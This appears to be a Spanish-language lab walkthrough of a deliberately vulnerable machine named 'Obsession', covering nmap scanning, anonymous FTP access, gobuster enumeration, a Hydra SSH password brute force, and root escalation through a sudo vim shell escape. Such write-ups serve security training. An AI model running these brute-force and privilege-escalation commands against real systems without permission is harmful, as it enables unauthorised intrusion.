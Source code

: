 ```yaml
---
description: '✍️ Autor: Juan🔍 Dificultad: Muy Fácil  📅 Fecha de creación: 25/06/2024'
---
```


# Obsession

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (321).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

![](<../../.gitbook/assets/1 (1).png>)

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP**, el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure>

Observamos que el puerto **21** tiene dos archivos que podrían contener información relevante, y que la conexión es permitida con el usuario **anonymous** y sin contraseña, por lo que nos conectaremos a través de **FTP**. Esto lo sabemos ya que la versión es vulnerable a esas credenciales.

![](<../../.gitbook/assets/3 (1).png>)

Tras entrar, debemos listar y descargar los archivos que se mostraban anteriormente a través de los comandos:

```bash
ls
get chat-gonza.txt
get pendientes.txt
```

![](<../../.gitbook/assets/4 (1).png>)

Ahora mostramos el contenido de esos archivos con:

```bash
cat chat-gonza.txt
cat pendientes.txt
```

![](<../../.gitbook/assets/5 (1).png>)

Con esto, descubrimos información de algunos de los usuarios e información de los permisos, lo que nos proporciona datos relevantes.

Seguimos indagando más sobre los puertos y ahora investigamos el servicio **HTTP**. Se ingresó la dirección IP en el navegador, lo que llevó a que la página web nos muestre un blog de entrenamiento personal.

![](<../../.gitbook/assets/6 (1).png>)

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

Descubrimos dos directorios que son `/backup/` y `/important/`, por lo que los revisamos y su contenido a continuación.

![](<../../.gitbook/assets/8 (1).png>)

![](<../../.gitbook/assets/9 (1).png>)

Con esto, descubrimos que el usuario es **russoski**. Continuamos con el siguiente directorio.

<figure><img src="../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

Parece ser que esto último no tiene nada relevante, por lo que nos centramos en lo que hemos descubierto anteriormente, que es el usuario.

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**.

<figure><img src="../../.gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **russoski**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh russoski@172.17.0.2
```

![](../../.gitbook/assets/13.png)

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

![](../../.gitbook/assets/14.png)

Observamos que podemos escalar privilegios con **vim** usando el comando:

```bash
sudo vim -c ':!/bin/sh'
```

Tras eso, ponemos:

```bash
id
```

y ya somos **root**.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>
